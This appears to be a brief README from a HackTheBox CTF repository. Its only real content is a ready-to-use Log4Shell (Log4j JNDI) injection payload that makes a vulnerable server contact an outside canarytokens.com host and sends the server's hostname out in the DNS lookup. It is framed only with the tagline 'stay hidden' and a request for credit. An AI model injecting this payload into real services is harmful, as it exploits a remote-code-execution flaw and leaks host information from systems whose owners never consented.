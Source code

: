 # HTBCTF
Always remember stay hidden.!

If you like my report please give a credit..!


${jndi:ldap://x${hostName}.L4J.nycg9nhtqc1qa8o40iu1sds8a.canarytokens.com/a}
